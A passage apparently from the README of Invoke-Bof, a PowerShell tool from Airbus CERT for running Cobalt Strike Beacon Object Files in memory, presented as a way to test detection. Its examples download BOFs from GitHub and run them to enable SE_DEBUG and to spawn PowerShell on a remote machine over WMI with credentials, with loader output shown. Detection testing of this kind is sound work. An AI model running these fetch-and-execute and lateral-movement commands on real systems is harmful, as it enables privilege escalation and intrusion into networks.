 ## Enable privileges
We can try to detect an attacker that tries to enable *SE_DEBUG* privilege:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/EspressoCake/Toggle_Token_Privileges_BOF/raw/main/dist/toggle_privileges_bof.x64.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint enable -ArgumentList 20



██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗  
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝  
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║     
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝     
                                               
  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text    at  0x133e0ab0000
[+] Mapping of .data    at  0x133e0bf0000
[+] Mapping of .xdata   at  0x133e0c20000
[+] Mapping of .pdata   at  0x133e0c30000
[+] Mapping of .rdata   at  0x133e0c40000
[+] Mapping of /4       at  0x133e0c50000
[+] Jump into beacon at 0x133e0ab0c10
****************************************************************************
Authors:
	@the_bit_diddler
	@hackersoup

You are not currently in an administrative session. Come again later!

****************************************************************************


```

## Lateral movement using WMI
You want to execute a process using WMI create process:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/Yaxser/CobaltStrike-BOF/raw/master/WMI%20Lateral%20Movement/ProcCreate.x64.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go -ArgumentList "\\COMPUTER\ROOT\CIMV2","domain","username","username","cmd.exe /C powershell.exe",1 -UnicodeStringParameter


██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝

  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text at  0x2e940940000
[+] Mapping of /4 at  0x2e95a880000
```